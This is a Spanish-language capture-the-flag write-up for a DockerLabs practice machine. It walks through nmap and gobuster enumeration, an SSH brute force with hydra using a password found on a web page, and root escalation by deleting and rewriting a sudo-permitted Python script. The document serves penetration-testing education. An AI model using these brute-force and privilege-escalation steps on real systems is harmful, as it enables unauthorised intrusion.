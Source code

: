 [[Writeups]]
#Writeups #Easy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Comenzamos con un escaneo general de nmap:

```bash
❯ sudo nmap -sS -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 13:32 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.94 seconds

```

Vemos que solo hay un servicio http con un ssh, vamos a escanearlos mas profundamente:

```bash
❯ sudo nmap -Pn -p80,22 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 13:33 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)
|_  256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.77 seconds
```

Hacemos una búsqueda de directorios en el servicio http:

```bash
❯ gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,js,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,js,xml
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 26]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1323354 / 1323360 (100.00%)
===============================================================
Finished
===============================================================
```

vamos a ver que encontramos en index.php y nos aparece una web solo con este código html:

```html
<h1>JIFGHDS87GYDFIGD</h1>
```

parece una contraseña, investigando mas la web no encuentro nada mas por lo que vamos a intentar hacer un ataque de fuerza bruta con hydra para la contraseña encontrada y una lista de usuarios en el servicio ssh:

```bash
❯ hydra -L /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-27 13:57:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
```

Usando la lista de usernames de SecList encontramos que la contraseña es del usuario carlos.

Vamos a entrar:

```bash
❯ ssh carlos@172.17.0.2
carlos@172.17.0.2s password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.5.0-13parrot1-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
carlos@afc0db7b893d:~$ 

```

Estamos dentro, ahora vamos a enumerar los permisos empezando por los permisos Sudo:

```bash
carlos@afc0db7b893d:~$ sudo -l
Matching Defaults entries for carlos on afc0db7b893d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User carlos may run the following commands on afc0db7b893d:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
carlos@afc0db7b893d:~$
```

Encontramos que tenemos permisos root en un archivo python, vamos a ver si podemos escribir sobre el para darnos permisos root:

![scriptpynowritteable.png](assets/scriptpynowritteable.png)

por el mensaje de abajo podemos ver que no podemos sobrescribir el archivo, la funcionalidad que ya hay parece que hace una copia de un archivo a otro pero vamos a borrar el archivo entero y volver a crearlo con el código que deseamos a ver si asi conseguimos que el sistema nos lo ejecute como root:

```bash
carlos@afc0db7b893d:/opt$ rm script.py
rm: remove write-protected regular file 'script.py'? y
carlos@afc0db7b893d:/opt$ ls

#Vemos que ya no existe el archivo

carlos@afc0db7b893d:/opt$ nano script.py

#Aqui dentro del nano asignamos el siguiente codigo
```

![nanoscript.png](assets/nanoscript.png)

Ahora nos queda ejecutar el binario /usr/bin/python3 con la ruta que nos han dado permisos y que hemos cambiado el archivo a ver que resultados da:

```bash
carlos@afc0db7b893d:/opt$ sudo /usr/bin/python3 /opt/script.py
```

Y obtenemos root:

![rootLibrary.png](assets/rootLibrary.png)


